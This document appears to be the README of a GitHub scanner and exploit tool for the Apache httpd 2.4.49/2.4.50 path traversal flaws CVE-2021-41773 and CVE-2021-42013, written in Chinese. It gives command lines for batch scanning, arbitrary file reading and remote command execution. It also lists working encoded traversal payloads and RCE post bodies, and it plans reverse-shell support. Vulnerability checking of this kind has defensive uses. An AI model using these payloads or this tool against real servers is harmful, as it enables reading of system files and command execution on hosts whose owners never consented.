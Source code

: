 # apache httpd path traversal checker


## 0x00 概述

20211005，网上曝出apache httpd 2.4.49的目录穿越漏洞（cve-2021-41773），可造成任意文件读取（穿越的目录允许被访问，比如配置了<Directory />Require all granted</Directory> 默认不允许）或命令执行（rce需开启cgi，默认并不包含cgi模块）

20211008，又出了2.4.50的目录穿越（cve-2021-42013），是绕过了cve-2021-41773的修复。



## 0x01 快速开始

python3运行

使用帮助：python3 apache-httpd-path-traversal.py -h


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-00.png)


单url检测：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80"


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-01.png)

![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-02.png)


批量检测：python3 apache-httpd-path-traversal.py -f urls.txt -t 30 -s 3


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-03.png)


文件读取：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /icons --readfile


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-04.png)


命令执行：python3 apache-httpd-path-traversal.py -u "http://1.2.3.4:80" --cdir /cgi-bin --rce


![](https://github.com/theLSA/apache-httpd-path-traversal-checker/raw/master/demo/apache-httpd-path-traversal-05.png)



## 0x02 工具简介

使用urllib.request发http数据包

检测漏洞存在的依据是读取/etc/passwd判断返回数据是否含有”root:”字符串（因为大部分都是linux，所以暂时忽略检测windows）

多线程，可选择超时时间，以提高效率。

可选公共目录，rce的shell，以提供灵活性。

采用可能的公共目录列表，提高命中率。
commonDirList = ['/cgi-bin', '/icons', '/assets', '/uploads', '/img', '/image']

注意：有时候文件读取是利用icons目录，而rce要用cgi-bin目录，具体情况具体分析。

采用7种poc和2种rce的post data格式：

#cve-2021-41773
poc0 = "/.%2e/%2e%2e/%2e%2e/%2e%2e"

poc1 = "/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e/.%2e"


#cve-2021-42013
poc2 = "/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65/%%32%65%%32%65"

poc3 = "/.%%32%65/.%%32%65/.%%32%65/.%%32%65"

poc4 = "/.%%32e/.%%32e/.%%32e/.%%32e"

poc5 = "/.%2%65/.%2%65/.%2%65/.%2%65"

#rce data
rce0 = "echo;id"

rce1 = "echo Content-Type: text/plain; echo; id"

//rce的post方法改为get方法好像也行。
//payload要根据目标的apache路径层数变化跳出，一般4层够了。
//要有一个apache存在的目录，比如icons/或cgi-bin/



## 0x02 TODO

1.可能会增加对windows系统的检测。
2.可能会增加反弹shell等进一步利用。



## 0x03 反馈

[issus](https://github.com/theLSA/apache-httpd-path-traversal-checker/issues)

gmail：[lsasguge196@gmail.com](mailto:lsasguge196@gmail.com)

qq：[2894400469@qq.com](mailto:2894400469@qq.com)